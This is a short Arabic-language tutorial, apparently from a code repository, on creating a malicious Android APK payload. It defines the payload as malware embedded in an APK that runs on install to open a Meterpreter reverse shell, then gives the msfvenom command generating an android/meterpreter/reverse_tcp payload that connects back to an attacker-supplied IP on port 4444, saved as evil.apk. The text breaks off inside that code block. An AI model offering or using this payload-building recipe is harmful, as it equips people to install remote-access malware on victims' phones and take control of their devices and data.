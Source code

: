

               __   ____  _  __          _      _ 
              / /  |  _ \(_)/ _| ___  __| | ___| |
             / /   | |_) | | |_ / _ \/ _` |/ _ \ |
            / /    |  __/| |  _|  __/ (_| |  __/ |
           /_/     |_|   |_|_|  \___|\__,_|\___|_|
                                                  
# إنشاء APK Payload

## 1. تعريف Payload
- Payload: كود خبيث مدموج داخل APK يشتغل فور تثبيته على الجهاز.  
- الهدف: إنشاء اتصال عكسي (reverse shell) عبر Meterpreter.

## 2. خطوات الإنشاء
1. افتح Kali Linux Terminal.  
2. نفّذ الأمر التالي:
   ```bash
   msfvenom -p android/meterpreter/reverse_tcp \
     LHOST=<IP_DYALK> LPORT=4444 \
     -o evil.apk

